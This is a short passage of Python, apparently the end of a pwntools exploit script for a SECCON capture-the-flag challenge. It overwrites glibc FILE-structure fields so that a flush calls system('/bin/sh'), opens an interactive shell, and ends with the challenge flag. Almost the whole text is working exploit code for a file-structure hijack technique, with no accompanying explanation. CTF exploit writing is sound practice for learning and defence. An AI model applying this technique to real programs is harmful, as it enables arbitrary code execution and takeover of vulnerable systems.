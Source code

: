```python
write_addr(_IO_backup_base, 0xdeadbeef)
write_addr(_IO_buf_base, libc.sym.system)	# function to call

log.info(f"/bin/sh = {hex(next(libc.search(b'/bin/sh')))}")
write_addr(_IO_save_base, next(libc.search(b'/bin/sh')))	# arg of function
#drop a shell!
flush()

#========= interactive ====================
r.interactive()
#SECCON{r34d_4nd_wr173_4nywh3r3_w17h_f1l3_57ruc7ur3}

```

